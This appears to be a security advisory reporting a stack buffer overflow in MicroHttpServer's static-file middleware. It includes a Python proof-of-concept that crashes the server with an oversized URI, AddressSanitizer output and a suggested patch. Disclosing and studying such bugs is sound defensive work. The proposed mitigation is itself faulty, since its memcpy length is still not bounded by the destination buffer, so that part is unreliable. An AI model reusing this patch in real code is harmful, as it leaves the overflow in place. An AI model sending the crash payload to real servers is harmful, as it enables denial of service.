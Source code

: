 After executing my fuzz tests, I discovered a remote stack buffer overflow in the C version of MicroHttpServer in the function uint8_t _ReadStaticFiles(HTTPReqMessage *req, HTTPResMessage *res) at lib/middleware.c, line 67:

```
memcpy(path + strlen(STATIC_FILE_FOLDER), uri, strlen(uri));
```


Any server or embedded application that utilizes MicroHttpServer is potentially at risk of remote code execution.  I've included reproduction steps in the following sections.


### Makefile Modifications

The following modifications were made to the Makefile to compile the server with address sanitizer and debug symbols.  The purpose of this is to track and verify the location of the stack buffer overflow:

```
PROJ=microhttpserver

CC=gcc
INCLUDES=-Ilib
DEFS=-D_PARSE_SIGNAL_ -D_PARSE_SIGNAL_INT_ -DDEBUG_MSG -DENABLE_STATIC_FILE=1
CFLAGS=-Os -Wall -fsanitize=address -g
SRCS=main.c app.c lib/server.c lib/middleware.c

all:
	$(CC) $(SRCS) $(INCLUDES) $(DEFS) $(CFLAGS) -o $(PROJ)

clean:
	rm -rf *.out *.bin *.exe *.o *.a *.so *.list *.img test build $(PROJ)
```

### Proof of Concept  Python3 Script

Save the following script to a file named poc.py:

```
#!/usr/bin/env python3

import socket

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("localhost", 8001))
sock.send(b"GET /"+b"%s"*5000+b" HTTP/1.1\r\nHost:localhost:8001\r\n\r\n")
response = sock.recv(4096)
sock.close()
```

### Starting MicroHttpServer

```
$ ./microhttpserver 
```

### Execute our Python3 Script

```
$ python3 poc.py
```

### Address Sanitizer Output

The following output is produced by address sanitizer, confirming the existence of the stack buffer overflow:

```
Listening
Accept 1 client.  127.0.0.1:35914
        Parse Header
        Parse body
=================================================================
==268450==ERROR: AddressSanitizer: stack-buffer-overflow on address 0x7ffc75d79c90 at pc 0x7f141a66dcbf bp 0x7ffc75d79b50 sp 0x7ffc75d79310
WRITE of size 10001 at 0x7ffc75d79c90 thread T0
    #0 0x7f141a66dcbe in __interceptor_memcpy ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors.inc:899
    #1 0x5632c9deeb74 in _ReadStaticFiles lib/middleware.c:67
    #2 0x5632c9deef9b in Dispatch lib/middleware.c:138
    #3 0x5632c9dee12b in _HTTPServerRequest lib/server.c:316
    #4 0x5632c9dee12b in _HTTPServerRequest lib/server.c:308
    #5 0x5632c9dee4e8 in HTTPServerRun lib/server.c:350
    #6 0x5632c9dec3c9 in main /home/kali/projects/fuzzing/MicroHttpServer/c-version/main.c:27
    #7 0x7f141a4456c9 in __libc_start_call_main ../sysdeps/nptl/libc_start_call_main.h:58
    #8 0x7f141a445784 in __libc_start_main_impl ../csu/libc-start.c:360
    #9 0x5632c9dec460 in _start (/home/kali/projects/fuzzing/MicroHttpServer/c-version/microhttpserver+0x2460) (BuildId: 39e1eff8cc6e7225cc4b4972fb5564788133b49d)

Address 0x7ffc75d79c90 is located in stack of thread T0 at offset 288 in frame
    #0 0x5632c9dee8a3 in _ReadStaticFiles lib/middleware.c:36

  This frame has 2 object(s):
    [48, 127) 'header' (line 47)
    [160, 288) 'path' (line 45) <== Memory access at offset 288 overflows this variable
HINT: this may be a false positive if your program uses some custom stack unwind mechanism, swapcontext or vfork
      (longjmp and C++ exceptions *are* supported)
SUMMARY: AddressSanitizer: stack-buffer-overflow ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors.inc:899 in __interceptor_memcpy
Shadow bytes around the buggy address:
  0x7ffc75d79a00: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x7ffc75d79a80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x7ffc75d79b00: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 f1 f1
  0x7ffc75d79b80: f1 f1 f1 f1 00 00 00 00 00 00 00 00 00 07 f2 f2
  0x7ffc75d79c00: f2 f2 00 00 00 00 00 00 00 00 00 00 00 00 00 00
=>0x7ffc75d79c80: 00 00[f3]f3 f3 f3 00 00 00 00 00 00 00 00 00 00
  0x7ffc75d79d00: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x7ffc75d79d80: 00 00 f1 f1 f1 f1 00 00 f2 f2 00 00 00 00 00 00
  0x7ffc75d79e00: 00 00 00 00 00 00 00 00 00 00 f2 f2 f2 f2 00 00
  0x7ffc75d79e80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 f3 f3
  0x7ffc75d79f00: f3 f3 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07 
  Heap left redzone:       fa
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb
==268450==ABORTING

```

### Impact

* [Remote Code Execution](https://www.cloudflare.com/learning/security/what-is-remote-code-execution/)
* [Denial of Service](https://attack.mitre.org/techniques/T0814/)

### Mitigation

The issue here is that memcpy is copying the value of 'uri' to  'path+srlen(STATIC_FILE_FOLDER)', but the size of the uri is larger than the destination buffer.

Buffer overflow vulnerability:
```
memcpy(path + strlen(STATIC_FILE_FOLDER), uri, strlen(uri));
```
This can be modified to prevent a buffer overflow:
```
memcpy(path + strlen(STATIC_FILE_FOLDER), uri, strlen(path) + strlen(STATIC_FILE_FOLDER));
```

### References

* [Buffer Overflow (CWE-121)](https://cwe.mitre.org/data/definitions/121.html)
* [OWASP Buffer Overflow Vulnerabilities](https://owasp.org/www-community/vulnerabilities/Buffer_Overflow)
* [Address Sanitizer](https://github.com/google/sanitizers/wiki/AddressSanitizer)
